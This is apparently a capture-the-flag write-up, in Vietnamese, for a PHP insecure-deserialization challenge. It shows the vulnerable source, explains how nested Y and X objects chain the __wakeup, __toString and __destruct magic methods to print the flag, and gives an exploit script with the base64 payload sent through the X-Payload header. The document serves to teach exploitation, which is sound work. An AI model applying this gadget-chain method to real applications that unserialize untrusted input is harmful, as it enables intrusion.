


# Insecure deserialization

## Source

```
<?php
$printflag = false;

class X {
    function __construct($cleanup) {
        if ($cleanup === "flag") {
            die("NO!\n");
        }
        $this->cleanup = $cleanup;
    }

    function __toString() {
        return $this->cleanup;
    }

    function __destruct() {
        global $printflag;
        if ($this->cleanup !== "flag" && $this->cleanup !== "noflag") {
            die("No!\n");
        }
        include $this->cleanup . ".php";
        if ($printflag) {
            echo $FLAG . "\n";
        }
    }
}

class Y {
    function __wakeup() {
        echo $this->secret . "\n";
    }

    function __toString() {
        global $printflag;
        $printflag = true;
        return (new X($this->secret))->cleanup;
    }
}

if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}
echo "ecruos? ym dnif uoy naC\n";
if (isset($_SERVER['HTTP_X_PAYLOAD'])) {
    unserialize(base64_decode($_SERVER['HTTP_X_PAYLOAD']));
}

?>
```

## Solution

Nhìn vào source code ta có thể thấy để lấy được flag :
- Cần truyền vào tham số cleanup với giá trị là flag , tuy nhiên nó sẽ bị hàm **__consturct()** chặn lại và in ra 'NO' bởi hàm die().
- Trong trường hợp vượt qua được hàm **__construct()** phía trên ta cần có printflag=true để có thể in ra flag và để gán lại giá trị true cho biến này ta cần gọi đến hàm **__toString()** trong hàm Y.

Để thỏa mãn tất cả, ý tưởng sẽ là:
- Gọi hàm **__toString()** trong func Y, để gọi được hàm này ta cần khởi tạo payload với hai func Y lồng nhau.
```
$exploit = new Y(new Y('flag'));
// O:1:"Y":1:{s:6:"secret";O:1:"Y":1:{s:6:"secret";s:4:"flag";}}  
```
Ở đây ta sẽ giả sử truyền vào func Y biến 'flag' , func Y đầu tiên sẽ gọi đến hàm **__wakeup()** , sau đó func Y lồng vào tiếp theo sẽ gọi đến hàm **__toString()** để gán $printflag=true .

- Việc tiếp theo sẽ là lồng vào func X với tham số 'flag' được truyền vào.
```
$exploit = new Y(new Y(new X('flag')));
// O:1:"Y":1:{s:6:"secret";O:1:"Y":1:{s:6:"secret";O:1:"X":1:{s:7:"cleanup";s:4:"flag";}}}
```
Việc lồng ghép này sẽ khiến hàm X gặp lỗi và gọi đến **__destruct()** mà bỏ qua hàm **__construct()** , điều này dẫn đến việc hai lệnh if được thực hiện và in ra đồng thời 'No!' và flag.
   

Exploit.php

```
<?php
class X{
	function __construct($cleanup){
    	$this->cleanup = $cleanup;
        }
}

class Y{
	function __construct($secret){
    	$this->secret = $secret;
    }
}
$exploit = new Y(new Y (new X('flag')));

echo base64_encode(serialize($exploit));
?>
// TzoxOiJZIjoxOntzOjY6InNlY3JldCI7TzoxOiJZIjoxOntzOjY6InNlY3JldCI7TzoxOiJYIjoxOntzOjc6ImNsZWFudXAiO3M6NDoiZmxhZyI7fX19

```

Cụ thể thứ tự gọi các magic method sau khi unserialize sẽ như sau :

1. Trước tiên khi bước vào quá trình unserialize method **__weakup()** sẽ được gọi đến làm nhiệm vụ echo ra biến *secret* (lúc này là 'flag').
2. Tiếp theo nó sẽ di chuyển xuống và gọi đến method **__toString()** tại đây $printflag sẽ được gán lại thành true khong những vậy nó còn trả về class X với đối số $cleanup được gán bằng địa chỉ của $secret (lúc này $cleanup='flag').
3. Ở bước cuối cùng nó sẽ gọi đến method **__destruct()** trong X , do $cleanup = 'flag' nên 'No!' sẽ được in ra bởi lệnh if đầu và $printflag=true dẫn đến việc $FLAG được in ra .



Cuối cùng ta sẽ gửi lên header X_PAYLOAD bao gồm mã base64 exploit phía trên , có nhiều cách để thực hiện công việc này ở đây mk dùng curl .

Result:



Nhìn vào kết quả ta có thể thấy 'flag' in ra chứng tỏ **__wakeup()** được gọi , 'No!' và flag được in ra chứng tỏ hàm **__destruct()** được thực thi ...


